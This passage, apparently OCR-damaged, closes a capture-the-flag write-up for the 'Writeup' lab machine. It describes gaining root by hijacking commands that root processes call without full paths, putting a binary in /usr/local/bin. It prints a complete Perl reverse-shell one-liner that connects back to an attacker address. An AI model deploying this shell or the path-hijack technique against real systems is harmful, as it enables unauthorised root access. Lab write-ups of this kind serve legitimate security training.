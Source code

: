      reports Writeup image13 png    after logging out and logging back in

     reports Writeup image22 png 

Note that the user who created a binary in the  usr local bin path must logout and log back in for it to affect him  All other users on the box do not need to do that  I am not sure why   This means that in a real scenario  before the command is hijacked  a victim could run a command and it would work just as expected  After it gets hijacked  the victim could run that same command  during the same login session  and the hijacked binary would get executed instead  This is why for the sake of security  it is imperative that high privileged users execute the full path of commands  especially when it comes to cron jobs   Let s look for cron jobs running as root  There might be one that is running a command without using its full path  There is a great script on github called  pspy  https   www google com url q https   github com DominicBreuker pspy sa D source editors ust 1653884891185100 usg AOvVaw2w7  BCyKSKMsXly3u3ToU  that actively monitors all processes running on a system  Downloading pspy and running it on the box  we see the following output 

     reports Writeup image10 png 

When first doing this box  I noticed that whenever I put a binary in the  usr local bin path or the  usr local sbin path  it would keep getting removed after some time  This cronjob is probably the culprit  I went into this rabbit hole for a long time  I tried using symbolic links to delete files  but it did not work  This privesc was especially difficult for people hacking on private instances  such as myself  because watch what happens when a person logs into jkr 

     reports Writeup image39 png 

Suddenly  we are met with a whole bunch of commands that don t use the full path  We have sh  run parts  and uname  Each of these commands is run by UID 0 which is root  So if we put a reverse shell in one of these binaries and copy it to the  usr local bin path  it will get executed and we will have a shell  The bash reverse shell did not work for me  so I used the perl reverse shell 

perl  e  use Socket  i  10 10 14 5   p 9001 socket S PF INET SOCK STREAM getprotobyname  tcp    if connect S sockaddr in  p inet aton  i     open STDIN    S   open STDOUT    S   open STDERR    S   exec   bin sh  i      

     reports Writeup image41 png 

     reports Writeup image37 png 

This was a fun box  Thank you  jkr for the cool privesc  Also  big thanks to Daniele Scanu  the creator of the SQL injection script  That was probably the most beautiful and user friendly exploit I have ever used  Last but not least  thanks to you for reading this writeup  I hope you learned not only from the Writeup box  but also from this writeup  Feel free to write me up at  0xd4yWriteups gmail com  mailto 0xd4yWriteups gmail com  if you have any comments 
